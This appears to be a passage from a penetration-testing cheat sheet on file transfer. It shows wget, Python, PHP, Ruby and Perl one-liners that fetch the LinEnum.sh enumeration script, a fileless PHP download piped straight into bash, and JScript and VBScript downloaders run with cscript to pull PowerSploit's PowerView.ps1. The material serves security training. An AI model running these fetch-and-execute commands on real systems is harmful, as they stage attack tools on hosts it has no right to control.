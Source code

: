 ```bash
wget 192.168.49.128:8000/filetotransfer.txt
```

## Programming Language

```bash
# python2 download
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw...er/LinEnum.sh", "LinEnum.sh")'
# python3 download
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw...er/LinEnum.sh", "LinEnum.sh")'
# php
php -r '$file = file_get_contents("https://raw...er/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
# ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw...er/LinEnum.sh")))'
# perl
perl -e 'use LWP::Simple; getstore("https://raw...er/LinEnum.sh", "LinEnum.sh");'
```

Fileless download with php.

```bash
php -r '$lines = @file("https://raw...er/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

### JavaScript

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

I use this command to execute the file.

```bash
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

### VBScript

```visual-basic
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
